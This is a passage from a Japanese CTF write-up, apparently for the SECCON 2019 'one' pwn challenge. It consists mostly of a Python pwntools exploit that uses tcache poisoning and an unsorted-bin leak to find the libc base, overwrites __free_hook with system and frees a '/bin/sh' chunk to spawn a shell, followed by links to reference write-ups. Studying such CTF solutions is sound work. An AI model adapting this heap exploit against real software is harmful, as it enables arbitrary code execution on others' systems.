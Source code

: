 ```python
    for _ in range(6):
        delete(s)
    heap_addr = u64(show(s).ljust(8, b"\x00"))
    print(hex(heap_addr))

    add(s, p64(0))  # tcache(0x50): A -> null
    add(s)  # tcache(0x50) is empty

    # making fake chunk
    fake_chunk = heap_addr + 0x60

    for _ in range(4):
        add(s, (p64(0) + p64(0x91)) * 3)

    delete(s)
    delete(s)
    add(s, p64(fake_chunk))
    add(s)
    add(s)  # p -> faka_chunk

    for _ in range(8):
        delete(s)  # fake_chunk is send to unsorted bin

    libc_base = u64(show(s).ljust(8, b"\x00")) - arena_libc - 0x60
    print(hex(libc_base))

    # write to __free_hook
    add(s)
    delete(s)
    delete(s)
    add(s, p64(libc_base + free_hook_libc))
    add(s)
    add(s, p64(libc_base + system_libc))

    add(s, "/bin/sh\x00")
    delete(s)

    s.interactive()

```

## Flag

ローカルでシェル取っただけなので無いです

## 参考Writeup

* [faithさんのwriteup](https://faraz.faith/2019-10-20-secconctf-2019-one/): 1番参考にしたwriteup、7回のfreeでtcacheを満杯にさせてからUnsorted Binに送っている
* [smallkirbyさんのwriteup](https://smallkirby.hatenablog.com/entry/2019/10/20/152309#3-One): デカいチャンクをUnsorted Binに送る
